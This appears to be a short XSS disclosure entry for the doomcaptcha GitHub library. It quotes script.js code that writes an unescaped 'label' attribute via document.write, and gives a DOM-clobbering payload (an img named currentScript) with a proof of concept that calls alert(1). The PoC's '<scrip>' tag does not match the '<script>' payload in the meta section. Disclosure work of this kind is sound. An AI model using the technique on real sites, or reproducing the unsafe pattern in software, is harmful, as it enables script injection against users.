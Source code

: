 ## doomcaptcha

### Meta

+ Library: doomcaptcha
+ Stars: 1K
+ Version: latest
+ Payload: ```<img name="currentScript" label="<script>alert(1)</script>">```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk
+ TheThing: Flow

### Library

URL:
+ `https://github.com/vivirenremoto/doomcaptcha/blob/main/script.js`

### Vulnerable Code Snippet

```javascript
var captcha_label = document.currentScript.getAttribute('label');

var captcha_html = '';
if (captcha_label) {
    captcha_html = '<p>' + captcha_label + '<br>';
}

document.write(captcha_html);
```

## PoC

```
<img name=currentScript label="<scrip>alert(1)</script>"></img>

<form>
<script src=script.js></script>
</form>
```
